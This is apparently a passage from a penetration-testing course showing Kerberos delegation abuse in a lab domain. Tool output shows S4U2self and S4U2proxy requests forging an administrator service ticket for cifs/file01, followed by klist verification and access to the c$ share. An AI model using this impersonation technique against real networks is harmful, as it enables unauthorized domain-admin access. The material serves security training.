 ```
[+] S4U2self success!
[*] Got a TGS for 'administrator@EVIL.COM' to 'web01$@EVIL.COM'
[*] base64(ticket.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWo...

[*] Impersonating user 'administrator' to target SPN 'cifs/file01'
[*] Using domain controller: dc02.evil.com (192.168.120.130)
[*] Building S4U2proxy request for service: 'cifs/file01'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/file01':

      doIF1jCCBdKgAwIBBaEDAgEWo...
[+] Ticket successfully imported!
```

> Listing 40 - Using the S4U protocol transitions to request a TGS

The output indicates that a TGS as the _administrator_ user for the CIFS service on file01 has been generated and injected into memory.

We can verify this with the klist command as shown in Listing 41.

```
PS C:\Windows\system32> klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ EVIL.COM
        Server: cifs/file01 @ EVIL.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
        Start Time: 6/26/2020 1:50:39 (local)
        End Time:   6/26/2020 11:50:38 (local)
        Renew Time: 7/3/2020 1:50:38 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: 
```

> Listing 41 - Displaying the requested TGS

We have successfully obtained a service ticket for the CIFS service on file01 as the _administrator_ domain admin user.

Note that when working through a reverse shell, the generated TGS is occasionally lost and must be requested again.

To prove that the ticket works, we can simply list the directory of the c$ share on file01:

```
PS C:\Windows\system32> ls \\file01\c$
ls \\file01\c$

    Directory: \\file01\c$

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/24/2020   1:07 AM                PerfLogs                                                              
d-r---        6/24/2020   7:24 AM                Program Files                                                         
```